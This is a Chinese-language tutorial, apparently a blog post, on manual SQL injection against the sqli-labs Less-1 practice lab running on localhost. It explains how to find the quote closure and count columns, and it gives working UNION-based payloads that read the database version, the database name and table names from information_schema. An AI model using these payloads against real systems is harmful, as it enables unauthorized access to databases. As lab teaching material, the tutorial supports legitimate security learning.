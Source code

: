 > 思路流程：

1. 查找注入点
2. 判断是字符型还是数字型注入 and 1=1 1=2 / 3-1
3. 如果是字符型，找到他的闭合方式 `'`、`"`、`')`、`")`
4. 判断查询列数，group by或者使用order by都可以
5. 查询回显位置：-1



**闭合的作用**

手工提交闭合符号，结束前一段查询语句，后面即可加入其他语句，查询需要的参数不需要的语句可以用注释符号`--+`或`#`或`%23`注释掉

注释掉：**利用注释符号暂时将程序段脱离运行。把某段程序“注释掉”，就是让它暂时不运行（而非删除掉）**



### 2.2 union联合注入

我这里使用的是level-1的靶场，然后测试使用union联合注入

![image-20240506141538687](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240506141538687.png?imageSlim)

这里测试的是有3列。

```sql
http://localhost/Less-1/index.php?id=1' group by 3--+
```

然后使用union联合注入查询：

- -1是为了能够查询回显位
- 通过group by判断查询的列，然后使用union去查询回显版本和数据库

```sql
union select 1,2,3--+

http://localhost/Less-1/index.php?id=-1' union select 1,version(),database()--+
```



::: tip 深入了解union注入过程

-  用到的关键数据库、数据表、数据列
- sql查询中group_concat的作用

:::



**拿到表名和列名**

如果使用单引号`'`闭合，可以使用--+。

![image-20240506145019010](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240506145019010.png?imageSlim)

所需要表名信息在数据库information_schema->数据表tables->数据列table_name。

```sql
id=0' union select 1,table_name,3 from information_schema.tables--+
```
